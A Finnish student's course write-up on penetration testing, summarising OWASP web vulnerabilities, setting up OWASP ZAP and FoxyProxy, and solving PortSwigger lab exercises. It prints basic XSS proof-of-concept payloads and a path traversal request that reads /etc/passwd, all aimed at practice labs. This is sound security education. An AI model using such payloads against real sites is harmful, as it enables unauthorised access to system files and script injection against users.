## h2* Täysin Laillinen Sertifikaatti  

*typo korjattu palautuksen jälkeen (otsikko oli h1)

Tehtävät ovat Tero Karvisen opintojaksolta Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/.

---

#### Laite jolla tehtävät tehdään:

- Apple MacBook Pro M2 Max
- macOS Sequoia 15.3.2
- Kali GNU/Linux, version 2025.1 ARM64 (aarch64)
- UTM QEMU 9.1 ARM Virtual Machine

---

### x) Lue/katso ja tiivistä.

- A01:2021 – Broken Access Control (IDOR ja path traversal ovat osa tätä) [^21]

    - Yksi syy Broken Access Control haavoittuvuuden syntymiseen on, että ohjelma ei toteuta "principle of least privilege".
    - Haavoittuvuus mahdollistaa alun perin rajatuksi pääsyksi tarkoitettun datan saamista manipuloimalla:
      
      - URL, sovelluksen tilaa muuten, HTML, uniikkeja identifioivia arvoja, Metadataa, evästeitä, sovelluksen rakennetta

    - Oma ajatus: Tekee kultaisesta säännöstä "principle of least privilege" entistäkin kultaisemman. 

- A10:2021 – Server-Side Request Forgery (SSRF) [^22]

  - SSRF haavoittuvuudessa hyväksikäytetään sovelluksen validoimatonta käyttäjän syöttämää dataa.
  - Oma ajatus: Validoinnin tarkastaminen voi olla haastavaa hommaa, koska vaihtoehtoja on niin paljon. Varmaan monesti voi olla hyvä, jos koittaa käyttää valmiita kirjastoja tai frameworkien omia ominaisuuksia.


- Insecure direct object references (IDOR) [^14]

  - Idor on pääsynhallinnan haavoittuvuus, joka on mahdollista tilanteessa, jossa sovelluksen käyttäjän syöttämällä datalla tehdään suoraan hakuja. esim. URL:ssa payment?payment_number=132 muuttamalla numeroa sovellus suorittaa suoraan uuden haun ilman  authorisointia.

- Path traversal [^8]

  - Haavoittuvuudessa hyökkääjä pääse sovelluksen serverin tiedostoihin. 
  - Tiedostot voivat olla esim:

    - Sovelluksen koodi ja data
    - Credentialsit
    - Sensitiiviset käyttöjärjestelmän tiedostot
  
  - Hyökkääjä voi päästä myös kirjoittamaan tiedostoihin.

- Server-side request forgery (SSRF) [^12]

  - Hyökkääjä voi onnistua saamaan pääsyn sovelluksen tai tieojärjestelmän sisäisiin palveluihin. 

- Cross-site scripting [^23]

  - Haavoittuvuus perustuu siihen, että hyökkääjä onnistuu syöttämään sovellukseen koodia, jonka sovellus suorittaa.
  - XSS hyökkäysten tyypit ovat:
  
    - Reflected XSS, skripti tulee HTTP pyynnöstä
    - Stored XSS, skripti tulee tietokannasta
    - DOM-based XSS, koodi on Clientilla
  
  - Oma ajatus: Tuli tätä miettiessä mieleen, että kun monet sivut käyttävät OAuth2/Open ID connect kirjautumista, missä siis kirjaudutaan vaikka Googlella, niin mitä onnistuisi tekemään siihen oman Googlen näköisen painikkeen. Tämä kirjautuminen johtaa ymmärtääkseni aina redirectiin ja käyttäjä siirtyy toiselle sivulle. Jos tuo toinen sivu olisikin vain tehty googlen kirjautumisen näköiseksi saattaisi käyttäjä ehkä epähuomiossa tulla suht helposti syöttäneeksi omat tietonsa väärään kirjautumiseen.
  - Oma ajatus: Kirjautumisen toteuttaminen niin, että se nojaa pelkkään JWT:hen Client-sidessa on aika hutera.

- Server-side template injection [^16]
 
  - Haavoittuvuus perustuu sovelluksessa olevan template enginen syötteiden manipuolointiin, joihin hyökkääjällä on pääsy. 
  - Oma ajatus: Siinä mielessä toki hurjaa tehdä tälläistä sovellusta, jossa käyttäjälle periaatteessa annettaisiin suora pääsy koodiin ja sen muuttamiseen. 


---

### a) Asenna OWASP ZAP, generoi CA-sertifikaatti ja asenna se selaimeesi.

Asensin zaproxyn seuraavalla komennolla:

```
sudo apt-get install zaproxy
```

Seuraavaksi vaidoin Kalin network moodin Host Only:ksi.



Laiton Zap päälle ja generoin sertifikaatin (Tools - Network - Server Certificate - Save).



Firefox asetuksista etsein certikaattiasetukset hakusanalla:



View Certificates pystyy importoimaan äsken luodun sertifikaatin. 




Asetin Zapin sieppaamaan myös kuvat



Asetin zap proxyksi firefoxiin. Etsein proxy hakusanalla ja laitoin seuraavat asetukset:



Localhost ei toiminut kuten tehtävänannossa sanottiin. Toisen virtuaalikoneen web palvelimella sai testattua toimivuuden. Kuvien toimivuutta ei vielä voinut testata.



---

### b) Asenna "FoxyProxy Standard" Firefox Addon, ja lisää ZAP proxyksi siihen.

Asensin FoxyProxy [^5] addonsin Firefoxiin.



Otin Firefoxin asetuksista Zap pois ja asetin FoxyProxyn asetukse ensin seuraavasti:



Metasploitablen web palvelu toimii taas, mutta localhost ei näy Zapissa. Tämäkään ei vaikuttanut.



Firefox ei huomioi localhostia proxy configurointiin automaattisesti, vaan jättää sen pois ja asetuksia tulee muuttaa [^6].





Mutta asiaa tutkittuani tuo, mitä äsken tein ja muutin about:configia ei vaikuta FoxyProxyyn ja versiossa 8.10 FoxyProxy jättää defaulttina localhostin proxyamatta. 



Tuon aiemmin laittamani asetus about:configissa mahdollistaa locahostin proxyamisen selaimen omalla proxy asetuksella.





Patterns toiminnolla saa rajattua mitkä sivut ohjataan proxyyn. example.com valittuna Metasploitablen web palvelu ei mene proxyyn.





---

### c) Reflected XSS into HTML context with nothing encoded [^1]

Kun tutustuin tehtäviin en malttanut olla aloittamatta suoraan tästä. En ole siis vielä tehnyt noita aiempia lukutehtäviä ja lähden kokeilemaan tätä tehtävää nykyisten tietojeni pohjalta. Ymmärtääkseni tehtävän pystyy tekemään pelkällä selaimella, joten kokeillaan pelkästään sillä ensin.

Ensiksi katsoin millaista html:ää input sisältää. Attribuutteina form tagilla on action="/" ja method="GET". action-attribuutissa määritetään URL, jossa formin submit käitellaan ja method="GET" taas aiheuttaa formin datan liittämisen URL:n ? separaattorilla [^2]. Tiedän Reactia tehneenä, että tässä buttonin submit aiheuttaa SubmitEventin (Reactissa tämä tarvii lähes poikkeuksetta estää).



Testatakseni tein seuraavan html:n, joka sisältää:

```
    <form action="/" method="get">
        <input type="text" name="goes_to_url" placeholder="Search the blog...">
        </input>
        <button type="submit">Search</button>
    </form>
```

Ja näin kävi (en aluksi tiennyt, että input name attribuutti menee myös urliin, mutta näköjään menee. (ensimmäisessä kuvassa oleva url tulee IntelliJ automaattisesta websocketista)):





Eli tehtävän koodissa SubmitEvent tässä tapauksessa tekee GET pyynnön palvelimelle ja vastaus muokataan sen mukaisesti, mitä urliin tulee formista eli `?search=input`

Jos tekee normaalin haun sivulla tulee haku osaksi html: 



Kokeilen ensimmäista xss-payloadia, mitä tulee mieleen ja se toimi:

```
<script>alert(0)</script>
```


---

### d) Stored XSS into HTML context with nothing encoded [^3]

Tarkastelin ensin html ja sivu tallentaa kommentteihin syötetyn tekstin varmaankin ihan sellaisenaan ilman mitään tarkastuksia. Kommentti menee p-tagiin. 

Kokeilin ensin omalla html:llä, miten saa laukaistua alertin heti sivun latausvaiheessa. Kun selailin, mitä `window` objektista löytyy, niin löysin `onload`, joka on event, joka laukeaa, kun koko sivu on ladattu [^4]  

Kokeilin seuraavaa payloadia ja se toimi(kokeilin, että window objectin voi jättää pois ja toimii silti). 

```
<script>window.onload = () => alert("xss");</script>
```



Payload tallentuu commentista serverille ja sitä ei escapta missään vaiheessa, vaan se lisääntyy html:ään ajettavana koodina (tämä ei ilmene seuraavasta kuvasta, koska escapattu näyttäisi ihan samalta).


---

### e) File path traversal, simple case. Laita tarvittaessa Zapissa kuvien sieppaus päälle. [^7]

Lähdin ihan kokeilemaan PortSwiggerin Path travelsal ohjeiden avulla [^8] ja sain kokeilemalla GET pyynnöön statuksella 200 image?filename=../../../etc/passwd

